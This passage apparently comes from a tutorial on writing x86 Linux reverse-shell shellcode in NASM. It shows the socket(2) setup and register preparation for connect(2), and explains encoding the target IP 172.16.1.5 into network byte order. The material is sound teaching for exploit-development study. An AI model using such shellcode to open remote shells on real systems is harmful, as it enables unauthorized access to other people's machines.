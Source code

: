 As you can see this is slightly less complex than the bind shell as we only need to concern ourselves with calling `connect(2)`, no `accept(2)` or `listen(2)`. This also results in a slightly smaller payload. 

### Starting Off

```nasm
 _start:

    xor ebx, ebx
    mul ebx

; socket(AF_INET, SOCK_STREAM, 0)
    push eax
    inc ebx
    push ebx
    push byte 0x02
    mov ecx, esp
    mov al, 0x66
    int 0x80
; A file descriptor for this socket is returned in EAX.
```

This portion of code is identical to the bind shell payload. We need to clean out some registers and make an initial call to `socket(2)` to get a file descriptor to do our business with. This file handle will stick with us to the end, as opposed to the bind shell code which would have us exchange the initial file descriptor for a new one when we `accept(2)` a connection. 

### Using `connect(2)` to Connect... Somewhere!

To make a connection is simple. The arguments for `connect(2)` are identical to `bind(2)`, but have a different purpose. We need a file descriptor to use (i.e. the one from `socket(2)`), a pointer to a `sockaddr` structure, and the size of the `sockaddr` structure. The `sockaddr` structure consists of two bytes of protocol domain, two bytes of destination port, and four bytes of destination ip address.

```nasm
    pop edi      
    xchg edi, eax
    xchg ebx, eax
    mov al, 0x66 
```

Before we do anything, we perform the same register cleanup as the one before `bind(2)` in the bind shell payload. Again, this is due to the unpredictability of the file descriptor we are returned from `socket(2)`.

#### Note on IP addresses

You probably understand an IPv4 address in this format: `172.16.1.5`. This is known as 'dotted decimal notation'. It is composed of four 'octets', which are decimal numbers between 0 and 255, separated by periods. Network stacks do not use this internally, instead under normal circumstances this `172.16.1.5` string is converted to a 32 bit integer in network byte order (big endian) using a function like the C standard library's `inet_aton(3)`. In this case the integer representation of the IP address I've chosen is `2886729989`, which in network byte order hexadecimal is `0xAC100105`. The most important thing to notice is that what the dots really separate are the bytes of the address.
